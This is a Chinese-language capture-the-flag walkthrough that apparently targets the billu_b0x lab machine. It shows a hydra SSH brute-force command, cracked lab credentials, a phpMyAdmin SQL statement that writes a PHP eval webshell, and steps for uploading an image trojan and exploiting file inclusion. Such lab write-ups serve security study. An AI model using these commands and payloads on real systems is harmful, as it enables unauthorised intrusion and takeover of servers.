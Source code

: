 ### 4.2使用hydra对SSH服务进行爆破

使用hydra对192.168.1.7 SSH服务进行爆破`hydra -L /root/桌面/wordlist.txt -P /root/桌面/wordlist.txt -t 6 ssh://192.168.1.7 #-t将线程调低为了保证稳定性`

![](../.gitbook/assets/hydra.png)

得到服务器的root账户的口令root:roottoor，ssh连接为root权限

```go
Your Hardware Enablement Stack (HWE) is supported until April 2017.

Last login: Wed Jun 26 02:47:23 2019 from 192.168.1.6
root@indishell:~# whoami
root
```

至此完成挑战

## 5.利用phpmyadmin

利用phpmyadmin可以查看其数据库信息，也可以利用SQL语句写入Webshell

### 5.1对phpmyadmin进行口令猜解
使用在c.php、/var/www/config.inc.php收集到的口令对phpmyadmin进行口令猜解
口令root:roottoor、billu：b0x\_billu  
使用口令billu：b0x\_billu登入成功
### 5.2使用phpmyadmin收集信息
进入到phpmyadmin后，在ica\_lab数据库中找到了Web页面的验证信息biLLu：hEx_it
这里收集到的口令可以用来登入index.php页面
### 5.3使用phpmyadmin获取webshell(权限不足未成功)
当成功登入phpmyadmin后，会有许多方法来获取服务器的webshell
#### 5.3.1利用phpmyadmin日志获取webshell
发现登入的用户billu不具有root权限，方法无法使用
#### 5.3.2利用phpmyadmin执行SQL语句获取webshell
在phpmyadmin处使用SQL语句功能，执行
```SQL
select '<?php @eval($_POST[cmd]);?>'INTO OUTFILE '/var/www/back.php'
```
提示
```go
#1045 - Access denied for user 'billu'@'localhost' (using password: YES)
```
没有权限，此路不通，所以只能将收集到的Web口令去尝试其他站点位置
## 6.利用panel.php页面文件包含漏洞
1. 使用在phpmyadmin中获取到的web口令biLLu：hEx_it登入，跳转到panel.php
2. 上传制作好的图片马
3. 使用文件包含include图片马
4. 菜刀连接
